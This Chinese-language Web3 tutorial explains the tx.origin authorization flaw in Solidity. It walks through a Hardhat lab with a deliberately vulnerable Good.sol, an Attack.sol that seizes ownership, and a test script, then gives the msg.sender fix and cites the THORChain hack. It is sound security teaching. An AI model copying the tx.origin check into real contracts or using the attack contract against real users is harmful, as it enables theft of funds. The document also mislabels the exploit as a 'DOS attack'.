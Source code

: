 ```yaml
---
title: Web3系列教程之高级篇---8：为什么不要使用tx.origin来确定交易的发送者
description: null
author: 李留白
weight: 0
date: 2022-08-07T13:53:04.820Z
lastmod: 2022-08-07T13:53:13.101Z
tags: []
categories:
  - 区块链
  - WEB3.0
featuredImage: https://hicoldcat.oss-cn-hangzhou.aliyuncs.com/img/R3RYera.png
---
```


`tx.origin`是一个全局变量，用于返回创建原始交易的地址。它有点类似于`msg.sender`，但有一个重要的注意事项。我们将学习如何因为错误地使用`tx.origin`导致智能合约的安全漏洞。

开始吧🚀

## 什么是tx.origin?

`tx.origin`是一个全局变量，返回发送交易的账户地址。现在你可能想知道什么是`msg.sender` 🤔。区别在于，`tx.origin`指的是开始交易的原始外部账户（也就是用户），而`msg.sender`是调用函数的直接账户，它可以是一个外部账户或另一个调用函数的合约。

因此，例如，如果用户调用合约A，然后在同一交易中调用合约B，当从合约B内部检查时，`msg.sender`将等于合约A。然而，无论你从哪里检查，`tx.origin`将是用户。

## 对智能合约的DOS攻击

### 将会发生什么？

将有两个智能合约 - `Good.sol`和`Attack.sol`。`Good.sol`。最初，`Good.sol`的所有者将是一个好的用户。使用攻击功能`Attack.sol`将能够把`Good.sol`的所有者变为自己。

### 建造

让我们构建一个示例，您可以在其中体验攻击是如何发生的。

- 要设置一个Hardhat项目，请打开终端，在一个新的文件夹中执行这些命令

```bash
npm init --yes
npm install --save-dev hardhat
```

- 如果你不是在mac上，请做这个额外的步骤，也安装这些库 :)

```
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

- 在你安装Hardhat的同一目录下运行。

```bash
npx hardhat
```

- 选择`Create a basic sample project`
- 对已指定的`Hardhat Project root`按回车键
- 如果你想添加一个`.gitignore`，请按回车键。
- 按回车键`Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

现在你有一个准备好的hardhat项目了!

首先，让我们创建一个名为`Good.sol`的合约，它基本上是我们之前使用过的`Ownable.sol`的一个简单版本。

```
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;


contract Good  {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner" );
        owner = newOwner;
    }
}
```


现在，在`contracts`目录下创建一个名为`Attack.sol`的合约，并编写以下几行代码：

```
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good public good;
    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

现在，让我们尝试使用样本测试来模仿攻击，在`test`文件夹下创建一个名为`attack.js`的新文件，并在其中添加以下几行代码

```
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.connect(addr1).deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    let tx = await _attackContract.connect(addr1).attack();
    await tx.wait();

    // Now lets check if the current owner of Good.sol is actually Attack.sol
    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
```

攻击会发生如下情况，最初`addr1`会部署`Good.sol`，并成为所有者，但攻击者会以某种方式愚弄拥有`addr1`私钥的用户，让他用`Attack.sol`调用`attack`函数。

当用户用`addr1`调用`attack`函数时，`tx.origin`被设置为`addr1`。`attack`函数进一步调用`Good.sol`的`setOwner`函数，首先检查`tx.origin`是否确实是所有者，这是真的，因为原始交易确实是由`addr1`调用的。在验证了所有者后，它将所有者设置为`Attack.sol`

因此，攻击者能够成功地改变`Good.sol `的所有者 🤯。

要运行测试，在你的终端上指向本级别的根目录，执行以下命令

```
npx hardhat test
```

当测试通过后，你会注意到`Good.sol`的所有者现在是`Attack.sol`。

## 现实生活中的例子

虽然这对你们中的大多数人来说可能是显而易见的，因为`tx.origin`根本不是你看到的被使用的东西，但有些开发者确实犯了这个错误。你可以在这里读到[THORChain Hack #2](https://rekt.news/thorchain-rekt2/)，由于攻击者能够通过向用户的钱包发送假的代币来获得对$RUNE代币的批准，而批准该代币在Uniswap上出售，就会将$RUNE从用户的钱包转移到攻击者的钱包，因为THORChain使用`tx.origin`而不是`msg.sender`进行转账检查。

## 预防

你应该使用`msg.sender`而不是`tx.origin`来避免这种情况发生。

例如：

```
function setOwner(address newOwner) public {
    require(msg.sender == owner, "Not owner" );
    owner = newOwner;
}
```

希望你喜欢本文❤️

## 参考

- [Solidity by example](https://solidity-by-example.org/)

![](https://hicoldcat.oss-cn-hangzhou.aliyuncs.com/img/my.png)
